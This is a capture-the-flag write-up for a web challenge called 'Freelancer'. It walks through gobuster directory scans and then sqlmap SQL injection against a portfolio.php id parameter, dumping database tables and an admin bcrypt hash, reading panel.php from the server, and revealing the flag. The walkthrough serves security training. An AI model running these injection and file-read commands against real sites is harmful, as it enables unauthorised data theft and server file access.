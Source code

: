 # TITLE: Freelancer

## CHALLENGE INFOS

Type: Web

Server: 157.245.46.178:32726

Task: Can you test how secure my website is? Prove me wrong and capture the flag!

## FIRST THOUGHTS

It might be a SQL injection

I already saw the theme on start.bootstrap, maybe it's not that different

## ATTEMPS

Let's try using gobuster to scan the directories of the website

```bash

gobuster dir -u http://157.245.46.178:32726/ -w /usr/share/wordlists/dirb/big.txt

```

Here is the result

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://157.245.46.178:32726/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/01 04:19:42 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/administrat (Status: 301)
/css (Status: 301)
/favicon.ico (Status: 200)
/img (Status: 301)
/js (Status: 301)
/mail (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/vendor (Status: 301)
===============================================================
2020/12/01 04:21:26 Finished
===============================================================
```

We can see /administrat is really interesting

I tried to look up robots.txt, .htpasswor and .htaccess but wasn't able to read them

Then i tried to scan for .php and html files and found out that the server was running php code on backend

```bash
gobuster dir -u http://157.245.46.178:32726/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php, html
```

Let's search for /administrat/panel.php

![/administrat/index.php](/FreeLancer/login.png "/administrat/index.php")

As you can see the website redirects to /administrat/index.php which is a login page

Maybe it's running some sort of SQL Database on backend?

Let's search on the main page if we can find something

On the index.php page we can find this href

```html
<a href="portfolio.php?id=1">Portfolio 1</a>
```

We know for sure now it's running some SQL database

Let's try to get tables list with sqlmap

```bash
sqlmap -u http://157.245.46.178:32726/portfolio.php?id=1 --tables
```

Here is the result

```bash
[04:41:09] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:41:09] [INFO] fetching database names
[04:41:09] [INFO] fetching tables for databases: 'freelancer, information_schema, mysql, performance_schema'
Database: freelancer
[2 tables]
+----------------------------------------------------+
| portfolio                                          |
| safeadmin                                          |
+----------------------------------------------------+
```

We did find 2 tables!

Let's try now use sqlmap to scan the tables rows

```bash
sqlmap -u http://157.245.46.178:32726/portfolio.php?id=1 -T portfolio --dump
```

```bash
| id | name        | content
| 1  | Log Cabin 1 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 2  | Log Cabin 2 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 3  | Log Cabin 3 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
```

We got it!

Now let's try for safeadmin

```sql
+----+--------------------------------------------------------------+----------+---------------------+
| id | password                                                     | username | created_at          |
+----+--------------------------------------------------------------+----------+---------------------+
| 1  | $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K | safeadm  | 2019-07-16 20:25:45 |
+----+--------------------------------------------------------------+----------+---------------------+
```

We got username and password but it's encrypted... I know for sure it's using some sort of BCrypt to hash the password but it's really hard to bruteforce the password

The last thing we can try is to get /administrat/panel.php page, maybe the flag is there?

## SOLUTION

```bash
sqlmap -u http://157.245.46.178:32726/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php
```

```bash
[04:57:14] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:57:14] [INFO] fingerprinting the back-end DBMS operating system
[04:57:14] [INFO] the back-end DBMS operating system is Linux
[04:57:14] [INFO] fetching file: '/var/www/html/administrat/panel.php'
do you want confirmation that the remote file '/var/www/html/administrat/panel.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[04:57:21] [INFO] the local file '/home/kali/.local/share/sqlmap/output/157.245.46.178/files/_var_www_html_administrat_panel.php' and the remote file '/var/www/html/administrat/panel.php' have the same size (880 B)
files saved to [1]:
[*] /home/kali/.local/share/sqlmap/output/157.245.46.178/files/_var_www_html_administrat_panel.php (same file)

[04:57:21] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/157.245.46.178'

[*] ending @ 04:57:21 /2020-12-01/
```

So now if we cat the result file we should see panel.php page

```bash
cat /home/kali/.local/share/sqlmap/output/157.245.46.178/files/_var_www_html_administrat_panel.php
```

HERE IT IS:

```html
<body>
    <div class="page-header">
        <h1>Hi, <b><?php echo htmlspecialchars($_SESSION["username"]); ?></b>. Welcome to our site.</h1><b><a href="logout.php">Logout</a></b>
<br><br><br>
        <h1>HTB{s4ff_3_1_w33b_fr4__l33nc_3}</h1>
    </div>
</body>
```

Flag: HTB{s4ff_3_1_w33b_fr4__l33nc_3}
